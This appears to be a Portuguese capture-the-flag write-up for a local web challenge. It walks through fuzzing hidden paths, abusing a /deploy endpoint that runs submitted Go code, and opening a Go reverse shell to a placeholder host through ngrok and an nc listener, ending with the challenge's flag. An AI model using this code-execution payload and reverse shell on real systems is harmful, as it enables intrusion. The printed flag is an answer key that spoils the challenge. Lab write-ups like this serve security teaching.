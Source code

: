 Para acessar o desafio, siga estas etapas:

Acesse a página do desafio. Ao entrar, você verá a seguinte imagem:

![alt text](images/init.png)

Após encontrar irá utilizar fuzer, com o ffuf ou gobuster para encontrar path que não estão aparente, após rodar irá encontrar os seguintes path

```sh
/public -> pasta publica
/health -> verificação de container ativo
/deploy
```

após encontrar a pasta publica terá que encontrar um arquivo dentro dela mas a mesma só recebe query params, segue a imagem abaixo:

![alt text](images/public.png)

com base nisso terá que rodar um novo fuzzer mas com uma terminação aparente que é .sh, após rodar o fuzzy irá encontrar a seguinte arquivo.

![alt text](images/deploy.png)


Após encontrar esse arquivo, ele irá dar uma flag por conta do fuzz, com isso iremos rodar o comando que achamos.

```sh
curl -X POST -d 'package main
import (
		"fmt"
		"os/exec"
)

func main() {
		// Comando para executar o script shell
		cmd := exec.Command("cat", "flag.txt")

		// Executa o comando e captura
		output, err := cmd.CombinedOutput()      
		if err != nil {
				fmt.Println("Erro ao executar o script:", err)
				return
		}
		// Imprime 
		fmt.Println(string(output)) 
}
' http://localhost:8080/deploy

```
Retornando o seguinte valor:

![alt text](images/deploy-exec.png)

Com o retorno acima identificamos que não tem flag nesse arquivo mas nos dar portas para acessar esse container usando shell reverse em golang.

Primeiro passo crie um proxy reverse com ngrok

![alt text](images/ngrok.png)

Após subir o container coloque o seu ngrock no campo do shell com shell reverse para a port a do seu nc

nc 
```sh
nc -l 127.0.0.1 4444
```
curl
```sh
curl -X POST -v \
  -d 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","seu_host_aqui_com_a_porta");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' \
```

![alt text](images/connect.png)

Após rodamos o seguinte comando:

```sh
/bin/bash -i 
```

Agora vá para pasta chamada public/flag_pwn.txt

```sh
cat ../public/flag_pwn.txt
# Extreme{6630db853468e9c768a584981349e924}
```
